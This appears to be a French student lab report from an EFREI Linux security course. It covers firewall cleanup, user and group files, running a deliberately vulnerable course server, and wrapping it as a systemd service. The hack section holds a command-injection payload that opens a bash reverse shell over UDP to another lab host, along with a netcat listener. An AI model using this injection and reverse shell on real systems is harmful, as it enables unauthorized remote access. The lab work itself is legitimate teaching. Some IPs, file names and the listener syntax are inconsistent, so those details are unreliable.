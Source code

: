 # linux-10-11

0. Prérequis

🌞 Boom ça commence direct : je veux l'état initial du firewall

```
[hugo@efrei-xmg4agau1 ~]$ systemctl status firewalld
● firewalld.service - firewalld - dynamic firewall daemon
     Loaded: loaded (/usr/lib/systemd/system/firewalld.service; enabled; preset: enabled)
     Active: active (running) since Tue 2024-09-10 04:14:38 EDT; 8min ago
       Docs: man:firewalld(1)
   Main PID: 703 (firewalld)
      Tasks: 2 (limit: 48922)
     Memory: 41.8M
        CPU: 627ms
     CGroup: /system.slice/firewalld.service
             └─703 /usr/bin/python3 -s /usr/sbin/firewalld --nofork --nopid

Sep 10 04:14:37 localhost systemd[1]: Starting firewalld - dynamic firewall daemon...
Sep 10 04:14:38 localhost systemd[1]: Started firewalld - dynamic firewall daemon.
```

```
[hugo@efrei-xmg4agau1 ~]$ sudo firewall-cmd --list-services
[sudo] password for hugo:
cockpit dhcpv6-client ssh
```

```
[hugo@efrei-xmg4agau1 ~]$ sudo firewall-cmd --permanent --remove-service=cockpit
success
[hugo@efrei-xmg4agau1 ~]$ sudo firewall-cmd --permanent --remove-service=dhcpv6-client
success
[hugo@efrei-xmg4agau1 ~]$ sudo firewall-cmd --reload
success
[hugo@efrei-xmg4agau1 ~]$ sudo firewall-cmd --list-services
ssh
```

🌞 Fichiers /etc/sudoers /etc/passwd /etc/group dans le dépôt de compte-rendu svp !

/etc/sudoers
```
## Allows people in group wheel to run all commands
%wheel  ALL=(ALL)       ALL
```
/etc/passwd
```
hugo:x:1000:1000:hugo:/home/hugo:/bin/bash
```
/etc/group
```
wheel:x:10:hugo
```

I. Partie 1 : Host & Hack

🌞 Télécharger l'application depuis votre VM
```
[hugo@efrei-xmg4agau1 ~]$ curl -O https://gitlab.com/it4lik/b3-csec-2024/-/raw/main/efrei_server
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 7044k  100 7044k    0     0  8718k      0 --:--:-- --:--:-- --:--:-- 8707k
```

```
[hugo@efrei-xmg4agau1 ~]$ ls
efrei_server
[hugo@efrei-xmg4agau1 ~]$ chmod +x efrei_server
```

🌞 Lancer l'application efrei_server

```
[hugo@efrei-xmg4agau1 ~]$ LISTEN_ADDRESS=192.168.56.101 ./efrei_server
Warning: You should consider setting the environment variable LOG_DIR. Defaults to /tmp.
Server started. Listening on ('192.168.56.101', 8888)...
```
🌞 Prouvez que l'application écoute sur l'IP que vous avez spécifiée
```
[hugo@efrei-xmg4agau1 ~]$ ss -tuln | grep 8888
tcp   LISTEN 0      100    192.168.56.114:8888      0.0.0.0:*
```
2. Prêts
   
🌞 Se connecter à l'application depuis votre PC

```
hugo@efrei-xmg4agau1 ~$ nc 192.168.56.114 8888
Hello ! Tu veux des infos sur quoi ?
1) cpu
2) ram
3) disk
4) ls un dossier

Ton choix (1, 2, 3 ou 4) :
```

3. Hackez

🌞 Euh bah... hackez l'application !

Du côté client, on constate qu'en sélectionnant l'option 4, il est possible de choisir un dossier à lister avec la commande ls, puis d'injecter une commande via un pipe. Ainsi, nous injectons un reverse shell en bash et configurons un serveur d'écoute sur une autre machine

```
   Ton choix (1, 2, 3 ou 4) : 4
Exécuter la commande ls vers le dossier : /etc | sh -i >& /dev/udp/192.168.56.115/4242 0>&1
```
```
nc -u -lvp -4242
```


II. Servicer le programme

1. Création du service
   
🌞 Créer un service efrei_server.service

```
[Unit]
Description=Super serveur EFREI

[Service]
ExecStart=/usr/local/bin/efrei_app
Environment=LISTEN_ADDRESS=192.168.56.114
```

➜ Une fois le fichier /etc/systemd/system/efrei_server.service créé :
```
[hugo@efrei-xmg4agau1 ~]$ sudo systemctl daemon-reload
```

2. Tests

🌞 Exécuter la commande systemctl status efrei_server
```
[hugo@efrei-xmg4agau1 ~]$ systemctl status efrei_server
○ efrei_server.service - Super serveur EFREI
     Loaded: loaded (/etc/systemd/system/efrei_server.service; static)
     Active: inactive (dead)
```
🌞 Démarrer le service
```
[hugo@efrei-xmg4agau1 ~]$ sudo systemctl status efrei_server
● efrei_server.service - Super serveur EFREI
     Loaded: loaded (/etc/systemd/system/efrei_server.service; static)
     Active: active (running) since Tue 2024-09-10 08:11:33 EDT; 3s ago
   Main PID: 13262 (efrei_app)
      Tasks: 2 (limit: 11099)
     Memory: 32.5M
        CPU: 62ms
     CGroup: /system.slice/efrei_server.service
             ├─13262 /home/antna/efrei_app
             └─13263 /home/antna/efrei_app

Sep 10 08:11:33 localhost.localdomain systemd[1]: Started Super serveur EFREI.
```

🌞 Vérifier que le programme tourne correctement
```
[hugo@efrei-xmg4agau1 ~]$ ss -tuln | grep 8888
tcp   LISTEN 0      100    192.168.56.114:8888      0.0.0.0:*
```








